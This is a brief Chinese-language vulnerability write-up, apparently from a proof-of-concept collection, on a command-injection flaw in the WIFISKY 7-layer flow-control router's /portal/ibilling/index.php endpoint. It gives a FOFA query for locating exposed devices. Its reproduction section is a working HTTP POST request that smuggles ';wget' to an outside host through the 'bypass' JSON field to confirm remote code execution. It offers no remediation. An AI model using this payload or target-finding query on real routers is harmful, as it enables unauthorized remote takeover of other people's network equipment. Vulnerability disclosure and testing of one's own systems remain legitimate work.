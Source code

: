 # WIFISKY 7层流控路由器index存在命令执行漏洞

# 一、漏洞简介
WIFISKY-7层流控路由器是深圳市领空技术有限公司（简称“领空技术"）的一款产品，深圳市领空技术有限公司是扎根深圳辐射的网络通讯设备供应商，致力于网络通讯设备产品的研究与开发。WIFISKY 7层流控路由器 index 接口存在一个命令执行漏洞，使得攻击者可以通过构造特定的请求远程执行恶意代码。此漏洞可能导致攻击者获取系统权限、执行任意命令，严重威胁系统的机密性和完整性。

# 二、影响版本
+ WIFISKY-7层流控路由器

# 三、资产测绘
+ fofa`title="WIFISKY 7层流控路由器"`
+ 特征

![1715173367617-aaada69e-bcaf-4f05-8166-b5ff817cdcfe.png](./img/lbdF8AT5TnJVh0_m/1715173367617-aaada69e-bcaf-4f05-8166-b5ff817cdcfe-551146.png)

# 四、漏洞复现
```http
POST /portal/ibilling/index.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36

{"type":5,"version":2,"bypass":";wget guzyybmley.dgrh3.cn"}
```

![1717868463587-8eea369e-a6b5-488c-85d3-0242dd3f45d6.png](./img/lbdF8AT5TnJVh0_m/1717868463587-8eea369e-a6b5-488c-85d3-0242dd3f45d6-720469.png)

![1717868416844-14f8d78b-79b8-4b06-8a9a-4e0c81dfea9b.png](./img/lbdF8AT5TnJVh0_m/1717868416844-14f8d78b-79b8-4b06-8a9a-4e0c81dfea9b-880444.png)



> 更新: 2024-06-11 10:28:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gogz90zifcvt0b1o>